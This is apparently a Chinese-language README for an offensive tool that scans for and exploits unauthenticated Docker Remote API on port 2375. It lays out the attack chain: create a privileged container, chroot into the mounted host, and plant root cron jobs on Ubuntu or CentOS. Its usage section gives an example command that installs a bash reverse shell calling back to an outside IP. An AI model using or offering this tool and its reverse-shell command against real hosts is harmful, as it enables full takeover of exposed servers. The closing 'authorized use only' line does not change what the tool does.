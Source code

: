 # FUCK2375

在编译之前记得导入一下项目中所需的github的包

旨在实现攻击2375端口的Docker Remote API

设置了两个功能，扫描2375端口和攻击2375端口

攻击代码思路为：

- 探测2375端口是否开放
- 创建docker连接获取本地镜像
- 把第一个镜像作为例子创建一个特权容器（如果本地没有镜像回去拉取ubuntu:latest然后去创建）
- 连接容器为宿主机设置执行计划任务



下面是使用方法：

~~~
-target 指定目标IP
-croncmd 指定计划任务需要执行的命令
-action 有两个值scan、attack，scan只做2375端口扫描，attack做2375端口扫描和攻击
-container 可选值，指定创建漏洞容器的名称，默认值为test_HgYCC3HqP1111
示例：
FuckDocker2375 -action attack -target 192.168.135.66 -croncmd "bash -c 'bash -i >& /dev/tcp/192.168.135.4/4447 0>&1'" -container test111
FuckDocker2375 -action scan -target 192.168.135.1-255
~~~

![1704451616223](picture/1704451616223.png)



由于Ubuntu和centos执行计划任务不同所以先`chroot /mnt cat /etc/lsb-release`和`chroot /mnt cat /etc/redhat-release`来探测目标机器是Ubuntu还是centos然后根据不同返回计划任务有所不同

- ubuntu：ubuntu执行计划任务是直接往/var/spool/cron/crontabs/root写内容然后为其设置权限为600

  ![1704451820143](picture/1704451820143.png)

- centos：centos执行计划任务是直接往/etc/crontab中写内容

  ![1704452035287](picture/1704452035287.png)

下面是扫描功能测试：

![1704452161329](picture/1704452161329.png)



**仅作为授权攻击，谨慎使用，否则后果自负**



